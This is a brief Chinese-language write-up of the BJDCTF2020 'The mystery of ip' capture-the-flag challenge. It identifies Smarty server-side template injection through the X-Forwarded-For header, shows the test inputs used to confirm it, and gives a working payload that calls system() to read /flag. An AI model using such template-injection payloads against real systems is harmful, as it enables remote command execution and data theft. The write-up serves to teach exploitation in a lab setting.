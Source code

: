 # \[BJDCTF2020]The mystery of ip

## \[BJDCTF2020]The mystery of ip

## 考点

* Smarty SSTI

## wp

flag.php回显了一个IP地址，抓包改XFF，一般这种大概率SSTI

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

输入`{{7*7}}`返回49，输入`a{*7*}b`返回ab，确认是Smarty SSTI

payload：`X-Forwarded-For: {{system("cat /flag")}}`
